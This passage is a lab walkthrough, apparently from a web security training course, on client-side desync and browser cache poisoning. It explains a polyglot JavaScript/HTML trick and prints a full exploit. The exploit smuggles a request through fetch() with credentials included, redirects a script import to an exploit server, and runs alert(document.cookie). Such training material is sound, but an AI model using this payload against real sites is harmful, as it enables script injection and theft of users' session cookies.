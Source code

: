 
### Combine these to craft an exploit that causes the victim's browser to poison its cache with a malicious resource import that calls `alert(document.cookie)` from the context of the main lab domain

At this stage, you've laid the foundations for an attack, but the final challenge is working out how to deliver a potentially harmful payload.

Initially, the victim's browser loads your malicious page as HTML and executes the nested JavaScript in the context of your own domain. When it eventually attempts to import the JavaScript resource on the target domain and gets redirected to your malicious page, you'll notice that the script doesn't execute. This is because you're still serving HTML when the browser is expecting JavaScript.

For an actual exploit, you need a way to serve plain JavaScript from the same endpoint, while ensuring that this only executes at this final stage to avoid interfering with the setup requests.

One possible approach is to create a polyglot payload by wrapping the HTML in JavaScript comments:

```js
alert(1);
/*
<script>
    fetch( ... )
</script>
*/
```

When the browser loads the page as HTML, it will only execute the JavaScript in the `<script>` tags. When it eventually loads this in a JavaScript context, it will only execute the `alert()` payload, treating the rest of the content as arbitrary developer comments.

**Now, go back to the exploit server, host the following payload, and deliver it to victim:**
```js
alert(document.cookie);
/*
<script>
    const labURL = "https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net";
    const exploitHost = "exploit-0af6007803d9848ac020db8601250091.exploit-server.net";

    if(window.name != 'skip'){
        window.name = 'skip';
        fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
    } else {
        window.name = '';
        location = `${labURL}/login`;
    }
</script>
*/
```

- The first time the browser window loads the page, it poisons its own cache via the `fetch()` script that you just tested.
- The second time the browser window loads the page, it performs a top-level navigation to the login page containing the JavaScript import.

